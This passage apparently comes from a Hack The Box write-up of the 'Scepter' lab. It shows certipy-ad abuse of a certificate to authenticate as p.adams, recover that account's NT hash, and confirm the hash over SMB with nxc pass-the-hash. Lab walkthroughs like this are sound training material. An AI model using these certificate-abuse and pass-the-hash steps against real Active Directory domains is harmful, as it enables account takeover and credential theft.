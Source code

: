 ```bash
[*] Saving certificate and private key to 'd.baker.pfx'
File 'd.baker.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'd.baker.pfx'
```

and auth as p.adams there.

```bash
faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" certipy-ad auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.10.11.65 -username p.adams
[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'p.adams@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'p.adams.ccache'
[*] Wrote credential cache to 'p.adams.ccache'
[*] Trying to retrieve NT hash for 'p.adams'
[*] Got hash for 'p.adams@scepter.htb': aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0
```

nice lets verify it!!!

```bash
➜  scepter2 nxc smb 10.10.11.65 -u p.adams -H 1b925c524f447bb821a8789c4b118ce0
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.65     445    DC01             [+] scepter.htb\p.adams:1b925c524f447bb821a8789c4b118ce0
```

![alt text](../assets/images/scepter16.png)
